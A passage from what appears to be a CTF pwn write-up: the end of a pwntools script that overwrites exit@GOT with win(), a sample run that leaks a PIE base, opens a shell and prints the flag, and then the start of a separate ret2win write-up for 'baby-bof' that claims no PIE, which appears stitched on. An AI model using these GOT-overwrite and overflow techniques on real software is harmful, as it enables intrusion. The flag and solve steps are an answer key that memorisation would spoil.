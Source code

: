```python

    io.recvuntil(b"2) exit")
    io.recvuntil(b"> ")
    io.sendline(b"1")
    io.recvuntil(b"Addr (hex): ")
    io.sendline(hex(exit_got).encode())
    io.recvuntil(b"Value (hex, 8 bytes): ")
    io.sendline(hex(win).encode())
    io.recvuntil(b"ok")

    io.recvuntil(b"> ")
    io.sendline(b"2")  # exit -> win()
    io.interactive()

if __name__ == "__main__":
    main()
```

---

## Sample run & flag

```
[*] Trying stack index %31$p …
[+] PIE base @ 0x55f1f85d5000 (index 31)
[*] win        @ 0x55f1f85d6380
[*] exit@GOT   @ 0x55f1f85d8420
[*] Switching to interactive mode
bye
$ ls
challenge
flag.txt
$ cat flag.txt
ctf{c503f30375fd0e91985b4d8f0c9cdc234c8018a8b3e1df3f4d1a126725f47d42}
```

---

nice chall liked solving this one


Here’s a clean, copy-pasteable write-up for **baby-bof** (includes the solve script).

# Write-up - baby-bof (Pwn)


A basic stack buffer overflow in `vuln()` lets us overwrite RIP and jump straight to the `win()` function, which prints the flag from `flag.txt`. The overflow offset is **72 bytes** (0x40 buffer + 8 saved RBP). Since the binary uses fixed addresses (no PIE), we can call `win()` directly.

---

## Challenge info

